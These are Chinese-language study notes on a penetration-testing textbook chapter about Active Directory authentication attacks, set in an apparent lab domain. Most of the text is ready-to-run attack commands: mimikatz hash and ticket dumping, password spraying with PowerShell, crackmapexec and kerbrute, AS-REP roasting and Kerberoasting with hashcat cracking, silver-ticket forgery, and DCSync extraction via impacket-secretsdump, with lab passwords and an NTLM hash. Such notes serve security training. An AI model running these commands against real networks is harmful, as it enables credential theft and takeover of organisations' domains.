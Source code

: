 本篇对应教材第22章，主要内容“AD身份认证”、“AD身份认证攻击”，记录使用工具和命令

## 22.1 AD身份认证

### 22.1.1 NTLM认证

认证时使用ip地址，一共7个步骤

client --- server --- DC

```armasm
client使用密码计算ntlm
client将username发送给server
server返回给client一个随机挑战串nonce
client使用ntlm加密nonce形成res发给server
server将res、username、nonce发给DC
DC上有所有用户的ntlm，使用对用username的ntlm解密res获得nonce，比对nonce是否正确
DC判断后将结果发给server
```

### 22.1.2 Kerberos认证

变换了认证模式

client --- DC（KDC）

client --- server

过程是client向DC请求票据，然后使用票据访问server。

### 22.1.3 缓存AD认证信息

hash一般存储在LSASS中，使用mimikatz来dump hash

```armasm
xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.50.75
cd C:\Tools
.\mimikatz.exe
privilege::debug
获取已登录的用户hash
sekurlsa::logonpasswords
```

滥用TGT和服务票证进行身份验证，获取自己和其他用户的票据

```armasm
dir \\web04.corp.com\backup
sekurlsa::tickets
```

可以看到TGT和TGS

## 22.2 AD身份认证攻击

### 22.2.1 密码喷洒攻击

密码暴力破解会导致密码锁死，所以要先查看密码策略

```armasm
net accounts
```

如果有密码锁定次数，如5次/30分钟，就只能测试4次/30分钟，不然就会被锁定

1）一般用密码喷洒（使用LDAP和ADSI）

```armasm
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```

如果正确

```armasm
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com
```

错误会显示“The user name or password is incorrect.”

也可以使用现成脚本https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

```armasm
cd C:\Tools
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```

2）利用SMB密码喷洒

```armasm
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success

crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com
显示“Pwn3d!”说明可以成功登录进行控制
```

3）基于TGT密码喷洒

```armasm
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

### 22.2.2 AS-REP烘焙

在kali下使用一个域账号及密码向DC请求AS-REQ，验证成功会返回AS-REPKey和TGT，就可以破解密码了。

```armasm
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
输入密码
```

破解

```armasm
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Windows下可以使用Rubeus.exe，使用当前用户权限

```armasm
cd C:\Tools
.\Rubeus.exe asreproast /nowrap
```

/nowrap去掉空格，复制下来破解

```armasm
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

枚举可以使用PowerView命令，或者kali上使用impacket-GetNPUsers

```armasm
Get-DomainUser -PreauthNotRequired
impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
```

### 22.2.3 Kerberoasting

在Windows上使用Rubeus，使用当前用户获取SPN然后请求DC获得TGS-REP

```armasm
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

破解

```armasm
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

kali上使用impacket-GetUserSPNs，需要一个域账号和密码

```armasm
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

一般获得的是SPN服务账号的hash，破解

```armasm
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### 22.2.4 白银票据

在指导SPN服务账号和hash的情况下，使用域SID和SPN，修改不具备权限的用户票据。

```armasm
iwr -UseDefaultCredentials http://web04
拒绝访问
```

mimikatz进行获取域SID和SPN账号hash

```armasm
privilege::debug
sekurlsa::logonpasswords

SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09
```

这个SID也可以查看当前用户获得

```armasm
whoami /user
```

域SID是去掉最后一段

用mimiaktz伪造票据

```armasm
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit
```

查看票据，再访问，就可以成功访问了

```armasm
klist
iwr -UseDefaultCredentials http://web04
```

### 22.2.5 DC同步（dcsync）

需要域管理员或者企业管理员具有同步权限的用户权限

Windows下使用mimikatz获得制定用户的hash

```armasm
cd C:\Tools\
.\mimikatz.exe
lsadump::dcsync /user:corp\dave
lsadump::dcsync /user:corp\Administrator
```

破解

```armasm
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

kali上使用impacket-secretsdump

```armasm
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
